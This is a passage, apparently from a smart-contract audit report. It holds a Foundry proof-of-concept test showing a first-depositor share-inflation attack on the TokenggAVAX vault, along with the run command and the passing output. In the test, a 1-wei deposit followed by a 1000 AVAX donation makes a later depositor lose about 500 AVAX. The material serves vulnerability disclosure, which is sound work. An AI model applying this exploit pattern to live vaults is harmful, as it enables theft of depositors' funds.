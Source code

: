     		// create new ggAVAX
    		ggAVAXImpl = new TokenggAVAX();
    		ggAVAX = TokenggAVAX(deployProxy(address(ggAVAXImpl), address(guardian)));
    		ggAVAX.initialize(store, ERC20(address(wavax)));

    		// Bob deposits 1 WEI of AVAX
    		vm.prank(bob);
    		ggAVAX.depositAVAX{value: depositAmount}();
    		// Bob transfers 1000 AVAX to vault
    		vm.startPrank(bob);
    		wavax.deposit{value: donationAmount}();
    		wavax.transfer(address(ggAVAX), donationAmount);
    		vm.stopPrank();
    		// Bob Syncs rewards
    		ggAVAX.syncRewards();

    		// 1 second has passed
    		// This can range between 0-14 days. Every seconds, exchange rate rises
    		skip(1 seconds);

    		// Alice deposits 2000 AVAX
    		vm.prank(alice);
    		ggAVAX.depositAVAX{value: aliceDeposit}();

    		//Expectet revert when any depositor deposits less then 1000 AVAX
    		vm.expectRevert(bytes4(keccak256("ZeroShares()")));
    		ggAVAX.depositAVAX{value: 10 ether}();

    		// Bob withdraws maximum assests for his share
    		uint256 maxWithdrawAssets = ggAVAX.maxWithdraw(bob);
    		vm.prank(bob);
    		ggAVAX.withdrawAVAX(maxWithdrawAssets);

    		//Validate bob has withdrawn 1500 AVAX 
    		assertEq(bob.balance, 1500 ether);

    		// Alice withdraws maximum assests for her share
    		maxWithdrawAssets = ggAVAX.maxWithdraw(alice);
    		ggAVAX.syncRewards(); // to update accounting
    		vm.prank(alice);
    		ggAVAX.withdrawAVAX(maxWithdrawAssets);

    		// Validate that Alice withdraw 1500 AVAX + 1 (~500 AVAX loss)
    		assertEq(alice.balance, 1500 ether + 1);
    	}

To run the POC, execute:

    forge test -m testShareInflation -v

Expected output:

    Running 1 test for test/unit/TokenggAVAX.t.sol:TokenggAVAXTest
    [PASS] testShareInflation() (gas: 3874399)
    Test result: ok. 1 passed; 0 failed; finished in 8.71s

### Tools Used
